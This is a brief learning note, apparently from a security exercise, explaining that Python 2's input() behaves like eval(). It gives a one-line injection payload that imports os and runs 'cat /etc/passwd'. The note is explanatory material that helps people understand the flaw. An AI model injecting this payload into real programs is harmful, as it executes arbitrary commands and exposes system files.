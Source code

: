 Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')

